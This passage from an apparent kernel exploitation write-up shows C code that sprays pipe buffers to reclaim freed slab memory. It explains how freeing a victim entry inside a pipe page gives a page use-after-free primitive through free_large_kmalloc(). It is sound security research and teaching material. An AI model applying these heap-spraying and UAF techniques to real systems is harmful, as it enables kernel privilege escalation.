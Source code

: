 The relevant part of the pipe-spraying code is shown below:

``` c
// [...]
printf("[+] try to reclaim free slabs as pipe pages\n");
{
    for (int i = 0; i < sizeof(tmp_buffer); i += 64) {
        *(unsigned long *)&tmp_buffer[i + 0x0] = 0x6969696969696969UL;
        *(unsigned long *)&tmp_buffer[i + 0x8] = CORAV_ENTRY_ALIVE; // magic number
    }

    for (int i = 0; i < RECLAIM_PIPE_COUNT; i++) {
        for (int j = 0; j < 16; j++) {
            SYSCHK(write(reclaim_pfds[i][1], tmp_buffer, sizeof(tmp_buffer)));
        }
    }
}
// [...]
```

### 3.4. Primitive - Page UAF

Once a pipe buffer is inserted into the bucket, the question is: what can we do next?

Intuitively, one might attempt to leak a kernel address through rbtree operations and then corrupt the rbtree structure to escalate into a more powerful primitive. However, there is actually a simpler approach to achieving a page UAF, which is also something I learned from the STAR Labs Summer Pwnables challenge (thanks Billy for reminding me during the game).

For readers interested in the details, please refer to [my other post](https://u1f383.github.io/linux/2025/09/01/starlabs-summer-pwnables-linux-kernel-challenge-writeup.html), specifically the section **"3.4. Intended Solution."**

In short, we can remove the victim entry and thereby release it. Once the remove handler invokes `kfree()`, the entry `e` actually resides somewhere within the pipe page. Since this address does not belong to any slab, the function `free_large_kmalloc()` [1] is invoked.

``` c
void kfree(const void *object)
{
    struct folio *folio;
    struct slab *slab;
    struct kmem_cache *s;
    void *x = (void *)object;

    // [...]
    folio = virt_to_folio(object);
    if (unlikely(!folio_test_slab(folio))) {
        free_large_kmalloc(folio, (void *)object); // [1]
        return;
    }
    // [...]
}
```
